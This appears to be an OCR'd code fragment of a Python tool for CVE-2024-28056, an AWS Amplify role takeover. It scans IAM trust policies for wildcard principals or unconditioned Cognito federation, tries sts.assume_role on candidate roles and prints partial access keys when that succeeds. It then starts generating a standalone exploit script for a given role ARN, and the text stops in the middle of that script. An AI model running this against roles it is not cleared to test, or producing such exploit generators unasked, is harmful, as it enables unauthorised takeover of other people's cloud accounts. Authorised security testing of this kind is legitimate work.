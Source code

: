 ```python

def check_vulnerable_trust_policy(trust_policy):
    """Check if trust policy is vulnerable"""
    
    vulnerable_patterns = [
        '"AWS": "*"',  # Wildcard principal
        '"Federated": "cognito-identity.amazonaws.com"',  # Without conditions
        '"sts:ExternalId"'  # Missing external ID
    ]
    
    policy_str = json.dumps(trust_policy)
    
    # Check for wildcard principals
    if '"AWS": "*"' in policy_str:
        return True
    
    # Check for missing conditions on Cognito
    if 'cognito-identity.amazonaws.com' in policy_str:
        statements = trust_policy.get('Statement', [])
        for stmt in statements:
            if 'Condition' not in stmt:
                return True
    
    return False

def test_role_assumption(sts, role_arn):
    """Attempt to assume a potentially vulnerable role"""
    
    try:
        response = sts.assume_role(
            RoleArn=role_arn,
            RoleSessionName='CVE-2024-28056-Test',
            DurationSeconds=3600
        )
        
        if response['Credentials']:
            print(f"[!!!] CRITICAL: Successfully assumed role {role_arn}")
            print(f"[!!!] AccessKeyId: {response['Credentials']['AccessKeyId'][:10]}...")
            return True
            
    except ClientError as e:
        if 'AccessDenied' in str(e):
            print(f"[+] Role assumption denied (expected): {role_arn}")
        else:
            print(f"[-] Error testing role: {e}")
    
    return False

def generate_exploit_code(role_arn):
    """Generate exploitation code for vulnerable role"""
    
    exploit = f"""
#!/usr/bin/env python3
# CVE-2024-28056 Amplify Role Takeover Exploit

import boto3

def exploit():
    sts = boto3.client('sts')
    
    # Assume vulnerable role
    response = sts.assume_role(
        RoleArn='{role_arn}',
```